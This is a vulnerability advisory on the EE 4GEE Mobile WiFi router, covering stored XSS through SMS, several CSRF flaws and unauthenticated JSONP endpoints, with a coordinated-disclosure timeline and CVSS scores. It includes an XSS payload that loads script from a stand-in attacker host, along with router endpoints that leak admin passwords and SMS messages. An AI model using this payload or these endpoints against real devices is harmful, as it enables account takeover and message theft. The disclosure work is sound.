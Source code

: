 

EE 4GEE Wireless Router - Multiple Security Vulnerabilities Advisory
-------------------------------------------------
<b>Vendor:</b> EE
<br>
<b>Product:</b> 4GEE Mobile WiFi Router - Version EE60_00_05.00_25
<br>
<b>Product URL:</b> https://shop.ee.co.uk/dongles/pay-monthly-mobile-broadband/4gee-wifi/details
<br>
<b>Proof of Concept Writeup:</b> https://blog.jameshemmings.co.uk/2017/08/24/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities-writeup/#more-276
<br>
<b>Disclosure Timeline:</b>
<br>
27th July, 2017 at 21:32 GMT. Email sent with technical vulnerability information and PoC.
<br>
27th July, 2017 at 22:00 GMT. Response from EE devices manager, confirming receipt of PoC.
<br>
31th July, 2017 at  18:47 GMT. Update from vendor, patches being developed for reported issues.
<br>
1st August, 2017 at 10:43 GMT. Reply sent to vendor.
<br>
10th August, 2017 at 10:32 GMT. Update from vendor, patches still being developed.
<br>
18th August, 2017 at 12:11 GMT. Email sent to vendor asking for update/ETA.
<br>
18th August, 2017 at 12:15 GMT. Response from vendor, updates to be released on Monday.
<br>
18th August, 2017 at 12:30 GMT. Reply sent to vendor with device IMEI for online update process.
<br>
22nd August, 2017 at 15:54 GMT. Response from vendor, beta firmware released to verify  changes.
<br>
23rd August, 2017 at 21:29 GMT. Reply sent to vendor, vulnerabilities successfully patched.
<br>
24th August, 2017 at 09:32 GMT. Response from vendor, patch publicly released to customers.
<br>
24th August, 2017 at 12:00 GMT. Full disclosure via Blog.

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

JSONP Sensitive Information Disclosure - Multiple
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Information Disclosure, Escalation of Privileges
<br>
<b>Affected Components:</b> 
<br>
http://192.168.1.1/goform/getPasswordSaveInfo
<br>
http://192.168.1.1/goform/getSingleSMSReport?rand=0.133713371337
<br>
http://192.168.1.1/goform/getSingleSMS?sms_id=1&rand=0.133713371337
<br>
http://192.168.1.1/goform/getSMSStoreState
<br>
http://192.168.1.1/goform/getSMSAutoRedirectSetting
<br>
http://192.168.1.1/goform/getSysteminfo
<br>
http://192.168.1.1/goform/getUsbIP?rand=0.13371337
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple JSONP information disclosure vulnerabilities within various endpoints which retrieve and/or set data. The JSONP endpoints allow for unauthenticated information disclosure of sensitive configuration data, settings, administration passwords and SMS messages, due to the lack of robust and effective access control. An attacker could view such unauthenticated endpoints via the local WiFi network to gain access to the administration credentials, router configuration and/or SMS messages.
<br>
<br>
CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 8.1 - High).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
